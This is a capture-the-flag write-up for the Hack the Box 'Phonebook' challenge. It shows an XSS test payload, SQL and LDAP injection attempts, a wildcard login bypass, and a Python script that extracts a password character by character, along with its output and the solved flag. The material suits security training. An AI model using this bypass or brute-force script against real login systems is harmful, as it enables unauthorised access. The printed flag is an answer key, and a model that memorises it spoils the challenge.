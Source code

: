 # Writeup "Phonebook"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                 </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/phonebook              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-phonebook-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/__                                                 </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                         </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-09-02                                                   </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-09-09                                                   </td></tr>
</table>

## Description

> Who is lucky enough to be included in the phonebook?

## Solution

The specified URL displays a login screen including a message by someone called "Reese": 

<p align="center">
   <img src="includes/phonebook-01.png" />
</p>

When we try to open the directory containing the included image, we discover a second page with a search field. The search field sends a POST request to the `/search` endpoint but we always receive a `403 Forbidden` response.

<p align="center">
   <img src="includes/phonebook-02.png" />
</p>

When we login, the website sends a POST request to the `/login` endpoint. Since we don't know the correct credentials, we are redirected to the original page with the additional parameter `message=Authentication failed`. This message is then displayed on the login page:

<p align="center">
   <img src="includes/phonebook-03.png" />
</p>

This means that there is a _cross site scripting_ (_"XSS"_) vulnerability on this page. Since the payload is inserted intow the website using the `innerHTML` attribute, we cannot use a `<script>` tag. But we can use the following code to trigger the XSS without user interaction:

``` html
<img src="" onerror=alert(window.origin) />
```

<p align="center">
   <img src="includes/phonebook-04.png" />
</p>

After some testing however, this does not seem to help us so we look for a different approach. After reading several comments in the official discussion thread, we decide to try an injection attack in the login fields. Exploits for SQL or PHP like `Reese' #` or `Reese'; //` do not work; according to some comments, the technology behind the login seems to be LDAP. But LDAP injection strings like `Reese)(&)` only lead to a `500 Internal Server Error` response. At least, this seems to confirm that LDAP is used.

Since at this point we are stuck, we do a web search for writeups of the challenge[^1][^2]. This leads us to a frustratingly easy solution for this first step: Just use "`*`" for both username and password. This leads us to the same search page we discovered earlier, but this time we are authenticated and we can use the search function.

We are now able to search through the user database; however, this does not reveal any hints regarding the flag. Turning back to the writeups, we learn that the solution is to find the password of the user `Reese` through a bruteforce attack. This is made possible by the fact that we can use the wildcard character "`*`" for any part of the password. Therefore, we can guess one letter at a time. Flags at HTB always have the same pattern, so we try to log in using "`HTB{*}`" as password, which is successful. Using the following _Python_ script, we can iterate through all possible passwords:

``` python
import requests
import string

challenge_url = "http://139.59.174.34:31321"
login_endpoint = "/login"

def testPassword(password: str) -> bool:
   password = "HTB{" + password + "}"
   payload = {'username': 'reese', 'password': password}

   response = requests.post(url=challenge_url+login_endpoint, data=payload)
   url = response.url

   return (url.find("failed") < 0)

def main():
   chars = string.ascii_letters + string.digits + "_?!"
   password = ""
   char_index = 0
   
   while char_index < len(chars):
      if testPassword(password + chars[char_index] + "*"):
         password += chars[char_index]
         char_index = 0
         print("Scanning for password... Result so far:", password)
      else:
         char_index += 1
   
   print("Flag found!")

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
Scanning... d
Scanning... d1
Scanning... d1r
Scanning... d1re
Scanning... d1rec
Scanning... d1rect
Scanning... d1recto
Scanning... d1rector
Scanning... d1rectory
Scanning... d1rectory_
Scanning... d1rectory_h
Scanning... d1rectory_h4
Scanning... d1rectory_h4x
Scanning... d1rectory_h4xx
Scanning... d1rectory_h4xx0
Scanning... d1rectory_h4xx0r
Scanning... d1rectory_h4xx0r_
Scanning... d1rectory_h4xx0r_i
Scanning... d1rectory_h4xx0r_is
Scanning... d1rectory_h4xx0r_is_
Scanning... d1rectory_h4xx0r_is_k
Scanning... d1rectory_h4xx0r_is_k0
Scanning... d1rectory_h4xx0r_is_k00
Scanning... d1rectory_h4xx0r_is_k00l
Flag found!
```

Therefore, the flag is:

```
HTB{d1rectory_h4xx0r_is_k00l}
```

### Sources

[^1]: https://skelter.hashnode.dev/htb-phonebook-writeup
[^2]: https://shakuganz.com/2021/07/04/hackthebox-phonebook-write-up/
[^3]: 
